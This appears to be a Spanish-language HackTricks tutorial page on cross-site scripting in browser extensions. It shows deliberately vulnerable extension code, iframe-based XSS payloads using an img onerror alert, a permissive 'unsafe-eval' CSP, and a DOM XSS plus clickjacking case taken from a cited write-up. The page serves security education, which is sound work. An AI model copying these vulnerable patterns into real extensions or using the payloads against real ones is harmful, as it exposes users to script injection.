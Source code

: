 # BrowExt - Ejemplo de XSS

{{#include ../../banners/hacktricks-training.md}}

## Cross-Site Scripting (XSS) a través de Iframe

En esta configuración, se implementa un **script de contenido** para instanciar un Iframe, incorporando una URL con parámetros de consulta como la fuente del Iframe:
```javascript
chrome.storage.local.get("message", (result) => {
let constructedURL =
chrome.runtime.getURL("message.html") +
"?content=" +
encodeURIComponent(result.message) +
"&redirect=https://example.net/details"
frame.src = constructedURL
})
```
Una página HTML accesible públicamente, **`message.html`**, está diseñada para agregar dinámicamente contenido al cuerpo del documento según los parámetros en la URL:
```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search)
let userContent = urlParams.get("content")
$(document.body).html(
`${userContent} <button id='detailBtn'>Details</button>`
)
$("#detailBtn").on("click", () => {
let destinationURL = urlParams.get("redirect")
chrome.tabs.create({ url: destinationURL })
})
})
```
Un script malicioso se ejecuta en la página de un adversario, modificando el parámetro `content` de la fuente del Iframe para introducir una **carga útil XSS**. Esto se logra actualizando la fuente del Iframe para incluir un script dañino:
```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src
let baseURL = targetFrame.split("?")[0]
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>"
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`

document.querySelector("iframe").src = maliciousURL
}, 1000)
```
Una Política de Seguridad de Contenido (Content Security Policy) demasiado permisiva como:
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
permite la ejecución de JavaScript, haciendo que el sistema sea vulnerable a ataques XSS.

Un enfoque alternativo para provocar el XSS implica crear un elemento Iframe y establecer su fuente para incluir el script dañino como el parámetro `content`:
```javascript
let newFrame = document.createElement("iframe")
newFrame.src =
"chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>")
document.body.append(newFrame)
```
## DOM-based XSS + ClickJacking

Este ejemplo fue tomado de la [publicación original](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

El problema principal surge de una vulnerabilidad de Cross-site Scripting (XSS) basada en DOM ubicada en **`/html/bookmarks.html`**. El JavaScript problemático, parte de **`bookmarks.js`**, se detalla a continuación:
```javascript
$("#btAdd").on("click", function () {
var bookmarkName = $("#txtName").val()
if (
$(".custom-button .label").filter(function () {
return $(this).text() === bookmarkName
}).length
)
return false

var bookmarkItem = $('<div class="custom-button">')
bookmarkItem.html('<span class="label">' + bookmarkName + "</span>")
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>')
bookmarkItem.attr("data-title", bookmarkName)
bookmarkItem.data("timestamp", new Date().getTime())
$("section.bookmark-container .existing-items").append(bookmarkItem)
persistData()
})
```
Este fragmento obtiene el **valor** del campo de entrada **`txtName`** y utiliza **concatenación de cadenas para generar HTML**, que luego se agrega al DOM utilizando la función `.append()` de jQuery.

Normalmente, la Política de Seguridad de Contenidos (CSP) de la extensión de Chrome evitaría tales vulnerabilidades. Sin embargo, debido a la **relajación de CSP con ‘unsafe-eval’** y el uso de los métodos de manipulación del DOM de jQuery (que emplean [`globalEval()`](https://api.jquery.com/jquery.globaleval/) para pasar scripts a [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) al insertar en el DOM), la explotación sigue siendo posible.

Si bien esta vulnerabilidad es significativa, su explotación generalmente depende de la interacción del usuario: visitar la página, ingresar una carga útil de XSS y activar el botón “Agregar”.

Para mejorar esta vulnerabilidad, se explota una vulnerabilidad secundaria de **clickjacking**. El manifiesto de la extensión de Chrome muestra una extensa política de `web_accessible_resources`:
```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```
Notablemente, la **`/html/bookmarks.html`** página es susceptible a framing, por lo tanto vulnerable a **clickjacking**. Esta vulnerabilidad se aprovecha para enmarcar la página dentro del sitio de un atacante, superponiéndola con elementos DOM para rediseñar la interfaz de manera engañosa. Esta manipulación lleva a las víctimas a interactuar con la extensión subyacente de manera involuntaria.

## Referencias

- [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
- [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{{#include ../../banners/hacktricks-training.md}}
